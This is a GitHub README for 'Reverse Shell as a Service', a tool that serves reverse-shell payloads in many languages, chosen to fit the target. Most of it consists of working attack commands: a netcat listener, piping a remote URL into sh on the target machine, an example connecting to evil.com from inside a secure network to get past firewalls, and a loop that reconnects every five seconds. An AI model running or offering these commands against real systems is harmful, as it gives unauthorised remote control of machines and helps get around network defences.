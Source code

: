 # Reverse Shell as a Service

> https://r.0x7359.com

Easy to remember reverse shell that should work on most Unix-like systems.

Detects available software on the target and runs an appropriate payload.

This is a fork from [lukechilds' version](https://github.com/lukechilds/reverse-shell), which was made in NodeJS.

I made this in PHP, added more payloads and the function to use a specific payload.

### Payloads


- PHP, PHP2, PHP3, PHP4, PHP5, PHP6, PHP7, PHP8
- Python, python2, python3, python4
- Perl, perl2
- Socat, socat2
- Ruby, ruby2
- Bash, bash2
- Ncat, ncat2
- Telnet
- Awk
- Sh
- Go

## Usage

### 1. Listen for connection

On your machine, open up a port and listen on it. You can do this easily with netcat.

```shell
nc -l 1337
```
### 2. Execute reverse shell on target

On the target machine, pipe the output of https://r.0x7359.com/yourip:port into sh.

```shell
curl https://r.0x7359.com/192.168.0.69:1337 | sh &
```

Go back to your machine, you should now have a shell prompt.

## Demo

![rev](https://user-images.githubusercontent.com/3837916/128927456-74880809-6d84-4455-aec8-16733f90c202.gif)


## Tips

### Use a specific shell

Sometimes you may prefer some payload instead of another. In these cases, you can use https://r.0x7359.com/yourip:port:payload_name to choose the payload you want.

The names of the payloads are inside brackets before the payloads themselves.

E.g.: 
```shell
curl https://r.0x7359.com/192.168.0.69:1337:php4 | sh &
```

### Hostname

You can use a hostname instead of an IP.

```shell
curl https://r.0x7359.com/localhost:1337 | sh
```

### Remote connections

Because this is a reverse connection it can punch through firewalls and connect to the internet.

You could listen for connections on a server at evil.com and get a reverse shell from inside a secure network with:

```shell
curl https://r.0x7359.com/evil.com:1337 | sh
```

### Reconnecting

By default when the shell exits you lose your connection. You may do this by accident with an invalid command. You can easily create a shell that will attempt to reconnect at each 5 seconds by wrapping it in a while loop with a sleep. This may not work well with the python payload.

```shell
while true; do curl https://r.0x7359.com/yourip:1337 | sh; sleep 5; done
```
